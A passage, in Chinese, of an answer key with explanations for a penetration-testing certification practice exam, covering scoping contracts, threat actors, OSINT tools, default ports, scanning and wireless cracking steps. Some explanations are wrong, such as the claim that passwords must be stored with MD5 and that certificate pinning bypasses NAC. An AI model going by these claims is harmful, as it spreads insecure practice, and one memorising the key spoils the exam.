保密协议（`NDA`）是一种保护承包商在渗透测试期间可能发现信息的法律协议。它禁止承包商向未经授权方披露此类信息。

### 121. C
脚本小子（script kiddie）通常缺乏使用自己的工具发起攻击的技术水平。相反，他们通常下载现有的工具并运行。由于这些工具对网络安全社区是知的，脚本小子的威胁通常小于对手列表中的其他类型人员。

### 122. D
高级持续威胁（`APT`）通常由国家赞助，因此资金充足，并拥有顶尖的技术资源和知识。因此，APT 通常是对手列表中所有人员中威胁最大的。

### 123. D
在这种场景中，你的扫描被入侵防御系统（`IPS`）检测到，导致你笔记本电脑使用的 IP 地址被列黑名单。现在，客户端网络的所有设备都会丢弃来自黑名单 IP 地址的数据包。


### 124. A. 主服务协议（MSA）定义了适用于多个未来协议的通用条款。因此，`MSA` 本质上是一份定义了未来工作完成所需条款的合同。受 `MSA` 约束的具体项目将由工作说明书（SOW）定义。客户想要签署 `MSA` 这一事实表明，他们可能希望聘用贵公司进行多次合作。

### 125. B. 很大可能，客户已经实施了网络访问控制（NAC）系统。你的笔记本电脑不符合 `NAC` 连接到安全网络所需的标准，因此它被隔离在一个孤立的修复网络中，在该网络中，它可以访问修复服务器（网络上的另一个宿主机）以达到合规性。

### 126. E. 在这种场景下，正在进行一次红队渗透测试。红队评估通常有狭窄的目标，而不是尝试全面地识别和测试所有可能的漏洞。红队评估可能会使用来自许多不同向量的协调攻击来实现这些目标。该团队可能被允许使用各种工具和技术完成任务，包括技术、物理和社交工程攻击。

### 127. D. 在具有许多租户的共享设施内进行渗透测试时，知道哪些 `SSIDs` 在范围内至关重要。入侵错误的无线网络是非法的，并可能导致起诉和/或法律诉讼。

### 128. A and D. 有组织的犯罪分子和国家级威胁者通常拥有大量的资金资源和技术专长。这很多时候允许他们开发出其他人不会使用的自定义漏洞程序。

### 129. B. 恶意内部人员通常是员工或承包商，他们被合法授予了对组织信息和系统的某种程度的访问。恶意内部人员利用这种信任并利用它来损害组织的信息或系统。

### 130. C. 脚本小子（script kiddie）通常缺乏使用自己工具发起攻击的技术造诣。相反，他们通常是下载现有的工具并运行。由于这些工具已被网络安全社区所知，与对手等级列表中的其他类型成员相比，脚本小子带来的威胁较小。

### 131. C. 在这种场景下，客户要求你超出约定的测试范围。这是范围蔓延（scope creep）的一个例子，在 IT 合同中是常见现象。在这种场景下，你可以通过两种方式之一进行回应。首先，你可以直接拒绝该请求，因为它超出了范围。或者，你可以要求客户在现有合同的附件中将电子邮件服务器包含进来，并收取额外费用。

### 132. A. `PCI-DSS` 标准是一项行业标准，用于确保处理信用卡的组织符合某些安全要求。由于你正是在测试客户对这些要求的遵循情况，因此你正在进行的是一种基于合规性的评估。

### 133. C. 测试协议应包含一份免责声明，表明测试仅在实施时的时间点有效，因为未来的技术变化可能会暴露目前未知的新的漏洞。如果在测试完成后的较晚时间出现新的利用程序或漏洞，你不必承担责任。

### 134. B. 渗透测试中发现的信息量在很大程度上取决于参与规则（rules of engagement）和所使用的评估类型。例如，白盒测试通常比黑盒测试提供更完整的信息。同样，如果某些系统和设备被识别为范围外，那么它们包含的任何漏洞将不会被发现。协议中的这些表述旨在当测试完成后，如果范围外的系统被发现漏洞时保护你。

### 135. A. 黑盒测试有时被称为 `zero knowledge` 评估，因为渗透测试人员对客户的网络几乎一无所知。这种类型的评估最能模拟真实世界的外部攻击。

### 136. B. 灰盒测试有时被称为 `partial knowledge` 评估，因为渗透测试人员对客户的网络有一定的了解，但他们并没有掌握全貌。这种类型的评估最能模拟真实世界的恶意内部人员攻击。

### 137. C. 白盒测试有时被称为 `full knowledge` 评估，因为渗透测试人员对客户的网络有完全了解，包括对所有基础设施设备和服务器的管理员访问权限。这种评估通常提供最全面的结果，因为测试人员不需要花时间处于发现模式。他们拥有所需的所有信息，可以立即开始广泛评估。

### 138. A. 通常，当使用 `IPSec` 实现 `NAC` 时，网络设备（如台式电脑和笔记本电脑）在允许连接到内部安全网络之前必须符合公司安全策略。如果符合，它们将被分配数字证书，允许它们与内部安全网络上的其他系统通信。否则，它们被放置在孤立的修复网络中，直到它们合规。要绕过 `NAC`，可以使用证书锁定（certificate pinning）为测试人员的系统分配数字证书，而无需在每次连接时都证明它们合规。

### 139. A. 客户组织适当的签署权限是唯一获得许可同意渗透测试范围的人。这究竟是谁会随组织而异。因此，你需要核实签署协议的人确实是该组织适当的签署权限。不要仅仅根据其职位名称就假设某个人已获得授权。

### 140. A. 在此中，你正在评估客户对影响的容忍度。通过在范围内包含这些措辞，如果渗透测试确实导致了关键系统离线，你可以保护你的组织免受诉讼。

### 141. A and D. 由于测试将涵盖目标组织的网络以及由第三方 SaaS 提供商的服务，因此在执行渗透测试之前必须获得这两个实体的书面许可。未能获得任何一个许可都会导致你面临起诉和/或法律诉讼。

### 142. B and E. 在这种场景下，该项目的范围限于内部网络基础设施。组织的 `ISP`、`Amazon Web Services` 以及邻居的无线网络都归第三方所有，因此被认为在范围之外。

### 143. A and C. 因为这是灰盒测试，你可以预期获得有限的网络访问权限和有限的存储访问权限。基本上，你可以预期获得与组织内普通员工类似的知识水平和访问权限。

### 144. D. 参与规则包括以下内容：

- 测试的时间表
- 哪些位置、系统、应用程序和其他潜在目标被包含/排除
- 收集到的信息的处理要求
- 预期的目标行为
- 投入测试的资源
- 应该解决的法律担忧
- 如何以及何时沟通
- 发生情况下联系谁
- 允许参与渗透测试团队的人员


### 145. D. 黑盒测试（有时称为零知识测试）旨在模拟攻击者会遇到的情况。测试人员不会获得环境的访问权限或有关该环境的信息，相反，他们必须像攻击者一样，收集信息、发现漏洞并穿过基础设施或系统。

### 146. C. 在入侵防御系统（IPS）、Web 应用防火墙（WAFs）以及其他安全设备中将测试人员列入白名单，可以允许他们在执行测试时不会被拦截。对于白盒测试而言，这意味着测试人员不会在安全措施检测到其尝试行为时花时间等待被解封。黑盒测试和红队测试更容易导致测试人员被安全措施列入黑名单或拦截。在这种情况下，渗透测试人员应该告诉客户，测试重点应放在通过所有在范围内的系统发现潜在的安全问题，而不仅仅是确定 IPS 等主动防御的有效性。

### 147. C. SOAP 是一种依赖 XML 和相关架构的 API 标准。基于 XML 的规范由 XML 架构定义（XSD）文档管理。对于渗透测试人员来说，拥有关于特定 API 支持内容的良好参考是有价值的。这个问题专门询问了 XML 文件，因此 SOAP 项目文件将最有帮助。

### 148. B 和 E. 了解公司政策及其对影响的容忍度是计划执行任务时需要了解的最两个项目之一。其他项目也很重要，但此情景要求给出最重要的两项。网络安全专业人员广泛认为，漏洞管理是任何信息安全计划的关键组成部分，由于此原因，许多组织在公司政策中强制要求漏洞扫描，即使这并不是法律性要求。应该使用被评估组织的风险和影响容忍度来定义评估的范围和执行规则。

### 149. A. 公司政策（也称为企业政策）是一套记录在案的指南，是在分析了可能影响公司目标、运营和计划的所有内部外部因素后制定的。它由公司董事会制定。公司政策规定了公司对已知和可能发生的情况的应对措施。它还决定了策略的制定和实施，并指导和限制公司人员为实现目标而采取的计划、决策和行动。在这种情况下，公司政策应该是详细且具体的；因此，公司系统必须使用 `MD5` 哈希算法来存储密码。

### 150. A. 预算是渗透测试业务流程中的关键因素。完成渗透测试需要预算，该预算由测试范围和执行规则决定。对于内部渗透测试人员，预算可能仅涉及分配给团队执行测试的时间。对于外部测试人员，预算通常从基于测试复杂性、团队规模以及任何相关成本的估算小时数开始。

### 151. B. 机密性控制旨在防止泄露攻击。尽管机密协议（CAs）是帮助强制执行双方之间保密关系的法律文件，但此问题询问的是为什么维护结果的机密性很重要。如果攻击者在渗透测试期间获知结果，他们可以利用这些结果来破坏客户的系统。

### 152. D. 工作说明书（SOW）定义了执行任务期间将完成的工作。SOW 是一份定义了测试目的、将进行哪些测试、将创建什么内容、测试完成的时间表、测试价格以及任何额外条款和条件的文档。

### 153. C. 大多数渗透测试任务的第一步是确定应该测试的内容，这通常被称为评估范围。评估范围决定了渗透测试人员将做什么以及如何分配时间。因此，这对评估的预算产生了重大影响。

### 154. A. 高级持续威胁（APT）是一种计算机网络攻击，个人或团体获得未经授权的网络访问权限，并在长时间内不被发现。APT 在对手分列表中提供了最高级别的威胁。高级持续威胁攻击者所使用的许多技术对渗透测试人员很有用，反之亦然。如果你的持久化技术没有被客户系统监控或检测到，结果应包含可以帮助他们绕过这一潜在问题进行设计的信息。

### 155. A, D, 和 F. 渗透测试人员将希望直接向客户报告更严重的问题。其中一些问题将记录在测试结束时给客户的报告中；然而，在某些情况下渗透测试人员应该立即联系客户，情况如下：报告任何关键发现、报告任何入侵指示，或在服务器对测试变得无响应状态时进行报告。

### 156. A. 高级持续威胁（APT）是一种计算机网络攻击，个人或团体获得未经授权的网络访问权限，并在长时间内不被发现。APT 在对手分列表中提供了最高级别的威胁。威胁者通常根据其能力进行评级。高级持续威胁攻击者使用的许多技术对渗透测试人员很有用，反之亦然。如果你的持久化技术没有被客户系统监控或检测到，结果应包含可以帮助他们绕过这一潜在问题进行设计的信息。

### 157. C. 范围蔓延（scope creep），或在评估范围中增加更多项目和目标，是渗透测试的持续威胁。在范围确定阶段，测试人员不太可能知道可能被发现的所有细节，而在评估过程中，测试人员可能会遇到意料之外的新目标。范围蔓延是指项目需求在项目生命周期内倾向于增加的现象。

### 158. B. Swagger 是用于定义 REST API 的开放规范。Swagger 文档是基于 SOAP 的 Web 服务 WSDL 文档的对应物。Swagger 文档指定了 REST API 可资源列表以及在这些资源上可以执行的操作。它还指定了操作的参数列表，包括参数的名称和类型、参数是否必选或可选以及关于这些参数接受值的信息。因此，访问 Swagger 文档可以为测试人员提供 API 如何运作的良好视角，从而使他们知道如何进行测试。


# 网络杀伤链概念

159. C. 网络杀伤链（Cyber Kill Chain）分为七个步骤，能够增强对攻击的可见性，并丰富分析师对手战术、技术和程序的理解。网络杀伤链是一种用于理解攻击者如何开展对组织造成危害的必要活动的方法论。了解`网络杀伤链`将极大地帮助信息安全专业人员建立强大的控制和对等措施，从而保护其组织的资产。这个问题描述了`侦察`（Reconnaissance）阶段，即`网络杀伤链`的第一阶段。在此阶段，攻击者正从技术和非技术两个角度从组织外部对目标进行评估。在此阶段，攻击者试图确定哪些目标将为其利用目标信息系统的所投入资源带来最大的回报。攻击者将寻找保护较少或存在可利用漏洞的信息系统。

160. A. 攻击的`目标实施`（Actions on Objectives）阶段也可能窃取敏感信息、未经授权使用计算资源进行拒绝服务攻击，或对信息进行未经授权的修改/删除。攻击者在网络杀伤链的`目标实施`阶段会执行其破坏信息或系统的机密性、完整性和/或可用性的原始意图。

161. C. 当评估范围中增加了额外项目时，就会发生`范围蔓延`（`scope creep`）。测试人员超出了初始评估协议的范围。

162. D. 红队评估通常比普通的渗透测试更有针对性。红队试图通过针对敏感数据或系统来模拟攻击者，目标是获取数据和访问权限。红队评估并非旨在提供目标所有安全漏洞的细节。红队评估可以作为安全演练，用于训练事件响应人员，或帮助验证安全设计和实践。

163. A. `证书锁定`（Certificate pinning）将主机与`X.509 证书`（或公钥）关联起来，然后使用该关联做出信任决策。你使用`证书锁定`来帮助防止中间人攻击。在公共网络上进行通信时，安全地发送和接收信息至关重要。

164. B. 黑客主义者（Hacktivists）可能想要表达政治或社会观点。黑客主义者通常不是为了钱进行攻击。他们是在一起的黑客个人或团体，认为自己是在为反对不公义而战。黑客主义者采用与黑客相同的工具和策略。

165. B. 许多渗透测试可能需要额外的授权，特别是那些涉及复杂 IT 基础设施的测试。通常使用第三方来托管系统，如`软件即服务`（`SaaS`）、`平台即服务`（`PaaS`）或`基础设施即服务`（`IaaS`）云提供商。渗透测试可能会影响这些提供商。这就是为什么确定第三方提供商或合作伙伴是否在范围内并获得授权至关重要。如果涉及第三方，你还需要确保客户和第三方都了解渗透测试可能产生。

166. B. `保密协议`（`NDA`）是一种旨在保护客户数据以及渗透测试人员在测试期间可能遇到的其他信息的机密性法律文件。

167. C. `主协议`（`MSA`）规定了两个组织之间的通用条款。许多组织还会创建一个`MSA`，定义这些组织在未来工作中将使用的条款。这使得持续的合作和合同处理变得容易得多。这可以帮助组织避免重新谈判的需求。当组织预计将合作一段时间或在创建支持协议时，`MSA` 是很常见的。

168. D. 知道哪些服务集标识符（`SSIDs`）属于你的目标以及哪些是无效目标至关重要。此外，知道哪些子网或`IP 范围`在范围内也很重要，以避免针对错误的网络或超出渗透测试的范围。在共享大楼中工作时，知道在范围内的`SSIDs`至关重要。渗透错误的网络可能会导致法律甚至刑事后果。

## 第 2 章：信息收集与漏洞识别

1. B. 这种场景下需要黑盒渗透测试，因此你可能会将大部分时间花在评估的信息收集和漏洞识别阶段。这是因为根据定义，在运行测试之前，你对该组织或其网络应该非常少或完全不了解。

2. B. `whois` 命令可以从公共记录中收集有关特定域名所有者的信息。

3. A. `nslookup` 命令包含在大多数操作系统（包括 `Windows` 和 `Linux`）中，并用于将组织的域名解析为其关联的`IP 地址`。

4. C. `theHarvester` 是某些 Linux 发行版（如 `Kali Linux`）上的可用工具，可用于查询搜索引擎以发现目标组织的电子邮件地址、员工姓名和其他细节。

5. E. `recon-ng` 实用程序提供网络侦察框架，允许你在 Web 上对一个组织进行开源侦察。`Censys` 是一个基于 Web 的工具，探测给定的`IP 地址`。`whois` 命令可以从公共记录中收集有关特定域名所有者的信息。`Shodan` 是渗透测试人员可以使用的专用工具，用于在公共来源搜索目标组织可能在其网络中部署的物联网（`IoT`）设备的证据。

6. A. `Censys` 是一个基于 Web 的工具，探测给定的`IP 地址`。它展示它可以发现的关于分配给该主机的任何信息。注意，某些组织会将 IP 地址加入黑名单，这严重限制了 `Censys` 能够发现它们的信息。

7. D. 收集归档指纹（`FOCA`）是一种用于从组织文档收集元数据的工具，例如 `Word`、`PowerPoint`、`OpenOffice` 和 `Adobe Reader` 文件。`FOCA` 在流行的搜索引擎（如 `Google` 和 `Bing`）搜索这些文件并提取它们可能包含的任何元数据。

8. B. `Shodan` 是渗透测试人员可以使用的专用工具，用于在公共来源搜索目标组织可能在其网络中部署的物联网（`IoT`）设备的证据。这非常有用，因为 IoT 设备经常采用渗透测试人员可以利用的较弱的安全机制。

9. D. `Maltego` 是渗透测试人员经常用于组织从 `OSINT` 源收集信息的工具。其主要优势之一是以图形化方式显示发现的信息并连接起来。

10. A. `nmap` 实用程序是一种广泛使用的扫描器。你可以用它扫描单个主机（例如此场景中的 Web 服务器），甚至是整个网络。要成为一名成功的渗透测试人员，你应该熟悉使用 `nmap` 发现信息的各种方式。

11. A 和 B. 翻找垃圾（`Dumpster diving`）是一种通过查看在垃圾中发现的文档来收集目标组织信息的技术。同样，`theHarvester` 可用于搜索互联网以查找电子邮件地址和员工姓名。这些信息可用于构建有效的鱼叉式钓鱼攻击。


### 12. B 和 E
成功钓鱼鱼式攻击（whaling exploit）的关键在于获取有关目标组织领导者的详细信息。通常可以从组织网站的新闻稿和高管简介中获取有用信息。这些信息可以为你提供姓名、职位，甚至可能是联系方式。

### 13. A 和 D
开源情报（`OSINT`）是指任何公开可用并可以被动收集的信息。由于它是被动收集的，因此你不能使用主动接触目标组织的方法来收集 `OSINT`。例如，运行漏洞扫描是一种主动方法，而阅读社交媒体帖子和查看企业税收报表是被动方法。社会安全号码和个人税收报表均属于非公开的受保护信息示例。

### 14. C 和 D
开源情报（`OSINT`）是指任何公开可用并可以被动收集的信息。由于它是被动收集的，因此你不能使用主动接触目标组织的方法来收集 `OSINT`。例如，运行漏洞扫描是一种主动方法，渗透组织的设施或从不满的员工那里套取信息也是如此。另一方面，从组织的 `DNS registrar` 注册处收集信息或在组织的网站上阅读职位描述是被动收集公开信息的示例。

### 15. A 和 E
开源情报（`OSINT`）是指任何公开可用并可以被动收集的信息。由于它是被动收集的，因此你不能使用主动接触目标组织的方法来收集 `OSINT`。例如，运行漏洞扫描是一种主动方法，渗透组织的设施也是如此。另一方面，组织网站上的职位描述以及 LinkedIn 上当前员工的简历都是公开信息的示例。通过审查这两个源，你可能可以确定该组织部署了哪些类型的系统。

### 16. B 和 C
可以使用 `whois` 工具从公共记录中收集有关域名所有权的信息。`recon-ng` 实用是一个模块化的 Web 侦察框架，用于组织和管理 `OSINT` 信息。

### 17. A
可以使用 `whois` 工具从公共记录中收集有关域名所有权的信息。在问题所示的示例中，你可以了解该域名的注册商是谁、所有该域名的组织名称、组织的地址、组织的电话、管理该域名的员工姓名以及该员工的电子邮件地址。

### 18. B
可以使用 `nslookup` 工具将域名解析为其关联的 IP 地址。

### 19. D
`recon-ng` 实用提供了一个 Web 侦察框架，允许你在 Web 上对组织进行开源侦察。在这个示例中，所有与指定域名关联的面向网络的服务器及其 IP 地址都已显示。

### 20. B
`SMTP` 邮件中继服务的默认端口是 `25` 端口。大多数 Linux 发行版使用 `sendmail` 等邮件守护进程进行内部通信。然而，它也可以通过端口 `25` 的 `SMTP` 在网络上发送消息。通常情况下，此端口在面向网络的服务器上会被防火墙拦截，以防止垃圾邮件发送者用于未经授权的中继。偶尔，你可能会发现某些开启了 `25` 端口但忘记关闭的服务器，导致主机存在漏洞。

### 21. D
使用直接 `TCP` 连接的 `SMB/CIFS` 服务默认端口是 `445` 端口。`SMB/CIFS` 协议用于文件共享，因此所述主机必须是一个文件服务器。

### 22. C
`Telnet` 服务的默认端口是 `23`。`Telnet` 用于使用命令行界面远程管理系统。`Telnet` 是一个非常老旧且不安全的协议。`Telnet` 服务器和客户端之间传输的所有信息均以明文发送，包括身份验证信息。通过嗅探进出该主机 `23` 端口的流量，你可能可以捕获到用户名和密码。

### 23. B
`FTP` 服务使用的默认端口是 `20` 和 `21`。`FTP` 用于通过网络连接在主机之间传输文件。`FTP` 是一个非常老旧且不安全的协议。`FTP` 服务器和客户端之间传输的所有信息均以明文发送，包括身份验证信息。通过嗅探进出该主机 `20` 和 `21` 端口的流量，你可能捕获到用户名和密码。

### 24. D
`TFTP` 服务使用的默认端口是 `69`。`TFTP` 提供了一种网络连接在主机之间传输文件的快速方便的方法。`TFTP` 使用 `UDP` 而不是 `TCP`。缺乏确认机制允许 `TFTP` 传输文件比 `FTP`更快。然而，`TFTP` 是一个不安全的协议，任何人都可以无需提供身份验证而连接到该服务。

### 25. A
Windows 域控制器托管许多开放的端口。大多数包含以下内容：
* 端口 `88`：用于 `Kerberos`。
* 端口 `135`：用于与域相关的服务。
* 端口 `138` 和 `139`：用于目录复制。
* 端口 `389`：用于 `LDAP`。
* 端口 `445`：用于 `SMB/CIFS`。
* 端口 `464`：用于 `Kerberos` 密码更改。
* 端口 `636`：用于安全 `LDAP`。
* 端口 `3268` 和 `3269`：用于全局目录（Global Catalog）通信。
* 端口 `53`：用于 `DNS`。

### 26. D
`IMAP` 服务默认端口是 `143`。`IMAP` 协议用于邮件服务器与邮件客户端之间传输邮件。

### 27. C
`SSH` 服务默认端口是 `22`。`SSH` 协议用于使用线路界面远程管理系统。与 `Telnet` 不同，`SSH` 使用加密保护身份凭据以及客户端与服务器之间传输的数据。

### 28. D
Web 服务器使用的默认端口是 `80` (`HTTP`) 和 `443` (`HTTPS`)。端口 `80`传输的数据通常以明文发送，而端口 `443`传输的数据使用 `SSL/TLS` 加密。

### 29. A
`LDAP` 服务器使用的默认端口是 `389`（不安全）和 `636`（安全）。`LDAP` 协议用于查询 LDAP 标准目录服务器，例如 Active Directory 或 eDirectory。由于端口 `389` 上的目录信息未加密，嗅探此端口的流量可能会暴露账户信息。

### 30. D
`DNS` 服务器默认端口是 `53`。`DNS` 服务用于将主机名解析为 IP 地址（反亦然）。如果 `DNS` 服务器安全性不高，你可能会破解它并投毒查找表，从而将合法的解析请求重定向到虚假的目标主机。

### 31. A
`traceroute` 命令输出中的 `***` 字符表示该路由中特定跳数的路由器运行正常并正在转发流量，但它不允许响应 `traceroute` 命令所使用的 ping 包。

### 32. C 和 D
该域名关联了一个 Web 服务器。它被配置在端口 `80` 上使用 `HTTP` 协议（不安全），以及在端口 `443` 上使用 `HTTPS` 协议（安全）。


### 33. D 和 E
在此示例中，该组织的 SSL/TLS 证书使用 `SHA256` 加密哈希函数进行签名。此外，可以看到该组织使用了 `IIS` Web 服务器，该服务器运行在 `Windows Server` 之上。

### 34. A
在此示例中，显示“250 2.1.5 Recipient OK”的行表示这是目标组织域名范围内的有效电子邮件地址。然而，它并没有显示该地址属于谁。你只知道它是一个合法的电子邮件。要在渗透测试中使用它，你首先需要将其与公司高管列表进行比对，这种列表有时在组织的网站上可以找到。

### 35. B
在此示例中，显示“250 2.1.5 Recipient OK”的行表示这是目标组织域名范围内的有效电子邮件地址。由于此，由于这是一个有效的电子邮件地址，你现在知道该组织极有可能使用`姓首字母`+`姓氏`@`公司域名.com` 的电子邮件命名规范。利用这些信息，你可以参考该组织的高管简介网页，并为所有管理团队成员构建电子邮件地址。

### 36. D
在此示例中，输出告诉我们电子邮件服务器响应 SMTP `HELO` 命令。有时可以通过使用 `HELO` 命令从电子邮件服务器中获取有用信息。

### 37. A 和 D
枚举过程包括连接到在网络段上发现的每个主机，并识别关键信息，包括每个主机运行的服务以及已安装的操作系统的版本号。

### 38. D
枚举过程包括连接到在网络段上发现的每个主机，并识别关键信息。在此示例中，注意该设备的 OS 类别如下：

- 类型：`WAP`
- 厂商：`Belkin`
- 操作系统族：`Embedded`

从这些信息中，你可以合理地推断该设备是一个无线接入点。

### 39. B
在“已用端口”（Ports Used）下，注意设备上的 `80` `TCP` 端口是开启的。这表明它极有可能运行着 `HTTP` Web 服务器。

### 40. A
通过在互联网上搜索“操作系统”（Operating System）下显示的版本号，你可能会发现设备使用的默认管理员用户名和密码。过去几年中，几个备受目的的漏洞之所以能够实现，是因为系统实施者未能更改网络基础设施设备使用的默认用户名和密码。

### 41. C
注意“主机名 > 名称”（Hostnames > Name）下的设备主机名以 `android` 开头。据此，你可以合理地推断该设备极可能是一个运行 `Android` 操作系统的移动手机或平板电脑。

### 42. C
注意此设备运行着 `Windows Server 2012`，并且开启了端口 `53`，该端口是 `DNS` 服务器的默认端口。因此，可以合理推断该服务器是域控制器。`Windows server`上的`Active Directory` 角色需要 `DNS` 角色。虽然 `DNS` 角色可以位于不同的成员服务器上，但 `Active Directory` 几乎总是安装在与 `DNS` 角色相同的服务器上。

### 43. E
根据 `Zenmap` 显示的信息，无法合理地推断出此问题列出的任何响应。你知道它是一台 `Windows server` 且极可能是域控制器，但你无法从给出的信息中推断出其他内容。

### 44. A
指纹抓取（Banner grabbing）是一个手动连接设备（如 Web 服务器）的过程，可以使用 `Telnet` 客户端或 `Ncat` 等工具，并利用显示的信息对设备进行识别。

### 45. B 和 D
在此示例中，设备在端口 `80` 和 `443` 上运行着 Web 服务器。端口 `515`、`631` 和 `9100` 均用于提供网络打印。

### 46. C
在此示例中，你将在 Linux 系统的 shell 提示符处输入 `telnet 10.0.0.1 80` 来获取目标 Web 服务器的 banner。

```
telnet 10.0.0.1 80
```

### 47. C 和 E
在此示例中，你知道设备运行着 `Apache` Web 服务器。同时注意设备名称为“Untangle Server”。通过搜索互联网，你可以了解到 Untangle 销售用于管理进出流量的安全设备。因此，你可以合理地假设该设备是该公司的一种种安全设备。

### 48. B
此示例中的设备极可能是一个 Windows 工作站。这一点由系统开启了默认的 `SMB/CIFS` 文件共享端口得以证明。

### 49. C
此示例中的设备极可能是一个运行在 `Windows Server` 上的域控制器。这一点由系统开启了默认的 `DNS` 服务器、`LDAP` 和 `Kerberos` 端口得以证明。

### 50. C 和 D
此示例中的设备较难分析。你可以清楚地看到它运行着一个 `DNS` 服务器和一个 Web 服务器。然而，这里显示的信息不足以推断出其他内容。一种可能是它是一个无线路由器，包含一个仅用于缓存的 `DNS` 服务器和一个用于配置和管理设备的嵌入式 Web 服务器。然而，要做出这一判断还需要更多信息。

### 51. A
`sslyze` 工具是一个用于进行证书检查的渗透测试工具。

### 52. B 和 C
示例中 `sslyze` 命令的输出显示服务器响应了 `TLSv1_1` 和 `TLSv1_2` 查询，但没有响应 `SSL2`、`SSL3` 或 `TLSv1` 查询。

### 53. A 和 C
你可以使用 `tcpdump` 或 `Wireshark` 在有线网络上捕获包。在两者中，`Wireshark` 通常被认为界面更友好。

### 54. A
`Aircrack-ng` 工具可用于发现范围内的无线网络并破解其加密。该过程对于旧的 `WEP` 网络非常快，对于 `WPA` 网络较但可行，对于 `WPA2` 网络则非常有挑战性。

### 55. A
在用无线网接口捕获无线网络流量之前，必须将其配置为在接入点使用的特定通道上运行监听模式（monitor mode）。

### 56. A
在使用 `Aircrack-ng` 破解无线网络加密之前，你首先需要在接入点使用的特定通道上运行 `airodump-ng` 工具以收集认证握手。

### 57. B
在使用 `Aircrack-ng` 破解无线网络加密之前，你首先需要在接入点使用的特定通道上运行 `airodump-ng` 工具以收集认证握手。然后，你需要运行 `aireplay-ng` 工具对无线客户端进行取消认证。

### 58. B
在有线网络上捕获数据包之前，必须将你的网络接口配置为杂杂模式（promiscuous mode）。否则，它将丢弃所有不是专门发送给其地址的帧。

### 59. D
此之处的问题在于网络使用了交换机而不是集线器。交换机学习连接到每个交换机端口的每个接口的 MAC 地址。它只会将帧发送到目标网络接口所在的特定端口。正因如此，你的笔记本电脑看不到发送到网络上任何其他主机的帧。


### 60. D
这里的问题在于网络使用的是交换机而不是集线器。交换机会学习连接到每个交换机端口的每个网络接口的 MAC 地址。它只会将帧传输到目标网络接口所连接的特定端口。由于这种情况，你的笔记本电脑永远看不到传输到网络上其他主机的帧。虽然从理论上你可以将网络交换机更换为集线器，但你的客户端可能不允许你这样做。最好的选择是将笔记本电脑连接到交换机上的镜像端口（mirror port）。镜像端口包含了发送到所有其他交换机端口的帧副本。这使得你的笔记本电脑能够看到发送给其他主机的帧。但在你这样做之前，你需要确保这在测试的行动规则下是被允许的。

### 61. A
在这种情况下，你可以尝试的一种方案是反编译应用程序的可执行文件。此过程将显示应用程序的汇编级代码，你可以对其进行弱点进行分析。

### 62. B
大多数反编译器产生汇编级源码，而不是 C++ 代码。为了使这些信息有用，你需要丰富的汇编语言代码工作经验。通常，这需要你聘请一位对汇编编程有深入理解的顾问。

### 63. B
调试器允许你在应用程序执行时对其进行分析。通常情况下，你可以逐步暂停应用程序的执行，或者允许它运行到代码中的某个特定点。这样做可能允许你识别出一个可以作为渗透测试一部分被利用的漏洞。然而，你必须在编程或应用程序测试方面拥有深厚的背景才能有效地完成这一点。

### 64. A
美国政府计算机应急响应小组（CERT）在 [`www.us-cert.gov`](http://www.us-cert.gov) 维护了一个网站，该网站包含了对当前报告给 CERT 的最频繁、高影响类型安全事件的定期总结。

### 65. B
JPCERT 是日本政府版的美国政府计算机应急响应小组（CERT）版本。JPCERT 在 [`www.jpcert.or.jp/english/`](https://www.jpcert.or.jp/english/) 维护了一个网站，提供当前安全警报和建议的动态总结。

### 66. D
国家漏洞数据库（NVD）由美国政府的国家标准与技术研究院（NIST）维护。可以通过 [`nvd.nist.gov`](https://nvd.nist.gov) 访问 NVD。该网站提供了按严重程度排序的当前安全漏洞总结。

### 67. C
常见漏洞与暴露（CVE）数据库是一个社区开发的资源，可以通过 [`cve.mitre.org`](http://cve.mitre.org) 访问。CVE 数据库包含一个公开的网络安全漏洞列表。每当世界上任何地方的供应商发现其产品存在漏洞时，他们就会在 CVE 数据库中添加一个条目。其目标是创建一个所有人都可以使用的通用资源，而不是让每个供应商单独维护一个仅包含与其产品相关的漏洞的数据库。

### 68. C
常见弱性枚举（CWE）数据库是一个社区开发的资源，可以通过 [`cwe.mitre.org`](http://cwe.mitre.org) 访问。CWE 数据库包含一个与通用软件相关的公开的网络安全漏洞列表，而不是针对特定产品。

### 69. D
常见攻击模式、枚举和分类（CAPEC）数据库是一个社区开发的资源，可以通过 [`capec.mitre.org`](http://capec.mitre.org) 访问。CAPEC 数据库包含一个常用的网络攻击模式目录。

### 70. B
完全披露（Full Disclosure）是一种开源研究资源，由制作 `nmap` 工具的同一组织发布。可以通过 [www.seclists.org/fulldisclose](https://www.seclists.org/fulldisclose) 访问。

### 71. D
完全披露是一种由制作 `nmap` 工具的同一组织发布的开源研究资源。

### 72. A
CERT 网站包含了当前报告给 CERT 的最频繁安全事件更新的总结。

### 73. A
CAPEC 数据库包含一个常用的网络攻击模式目录。

### 74. D
国家漏洞数据库（NVD）提供了当前安全漏洞的总结。

### 75. A
常见漏洞与暴露（CVE）数据库是一个社区开发的资源。每当世界上任何地方的供应商发现其产品存在漏洞时，他们就会在 CVE 数据库中添加一个条目。

### 76. A
凭据扫描要求你首先对网络进行验证，最好使用管理员账户。

### 77. B
非凭据扫描在不进行身份验证的情况下对网络进行。

### 78. A
凭据扫描要求你首先对网络进行验证，最好使用管理员账户。

### 79. B
非凭据扫描在不进行身份验证的情况下对网络进行。

### 80. A
`ping sweep` 是发现扫描的一个示例。`ping sweep` 的目标不是探测每个系统，而是仅仅为了识别网络上每个可达系统。

### 81. A
发现扫描被设计为映射目标网络上的所有系统。

### 82. B
全扫描使用侵入性方法探测目标网络上的每个主机。

### 83. A
发现扫描被设计为映射目标网络上的所有系统。

### 84. B
全扫描使用侵入性方法探测目标网络上的每个主机。由于这种方法，全扫描通常会被 IDS 或 IPS 设备快速检测并阻止。

### 85. C
隐蔽扫描通过向目标网络发送 `SYN` 包来枚举主机。

### 86. C
隐蔽扫描通过操纵 TCP 三次握手来枚举目标网络上的主机。


### 87. D. 隐身扫描通过操控 TCP 三次握手来列举目标网络上的主机。首先，它向目标发送一个 `SYN` 数据包。如果收到了 `SYN-ACK`，则扫描器知道目标主机存在。扫描主机并没有通过向目标发送 `ACK` 数据包来完成连接，而是通过发送 `RST` 数据包来重置连接。

### 88. A. 隐身扫描目前认为不再像以前那样隐蔽了。大多数现代 IDS/IPS 设备都能检测到隐身扫描期间网络上异常高频率的 `RST` 数据包，并采取适当的措施。例如，IDS 可以生成警报。IPS 可以生成警报并拦截来自扫描主机的流量。

